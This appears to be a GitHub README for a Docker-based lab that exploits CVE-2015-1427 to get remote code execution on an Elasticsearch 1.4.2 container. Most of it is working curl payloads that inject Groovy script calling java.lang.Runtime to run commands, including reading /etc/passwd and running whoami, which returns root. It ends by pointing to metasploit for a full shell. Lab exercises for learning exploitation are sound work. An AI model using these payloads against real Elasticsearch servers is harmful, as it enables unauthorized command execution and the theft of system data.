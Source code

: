 # Remote Code Execution in a vulnerable Elasticsearch container

PoC rely on *CVE-2015-1427* exploitation https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427


## Pre-requisites
- docker
- docker-compose

#### Launch containers

`docker-compose up -d`

Enter in attacker container and play a little with Elastic RCE with `docker exec -it elhackstic_badguy_1 bash`

Check if elastic is responding
```bash 
ping elhackstic_vulnerable_1
```

or 
```bash
curl http://elhackstic_vulnerable_1:9200
```

elastic API will reply :
```
{
  "status" : 200,
  "name" : "Namorita",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.4.2",
    "build_hash" : "927caff6f05403e936c20bf4529f144f0c89fd8c",
    "build_timestamp" : "2014-12-16T14:11:12Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.2"
  },
  "tagline" : "You Know, for Search"
}
```

#### Let's play with code injection

Information gathering

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.System\").getProperty(\"os.name\")"}}}'
```

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getText()"}}}'
```

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}'
```

```
...
        "payload" : [ "root\n" ]
...
```

Finally you easily can get a shell with metasploit.
